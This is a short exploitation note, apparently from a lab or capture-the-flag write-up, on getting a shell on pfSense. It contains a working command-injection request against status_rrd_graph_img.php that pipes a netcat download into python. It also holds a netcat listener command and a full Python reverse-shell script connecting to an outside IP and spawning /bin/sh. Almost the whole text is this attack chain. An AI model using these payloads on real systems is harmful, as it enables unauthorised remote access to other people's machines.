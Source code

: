 # Getting a Shell

## [Command Injection](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/) in status_rrd_graph_img.php
Payload
```bash
GET /status_rrd_graph_img.php?database=queues;nc+10.10.14.21+9001|python HTTP/1.1
```


Content of rev.py

```bash
nc -lvnp 9001 < rev.py 
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![[Pasted image 20211106053620.png]]

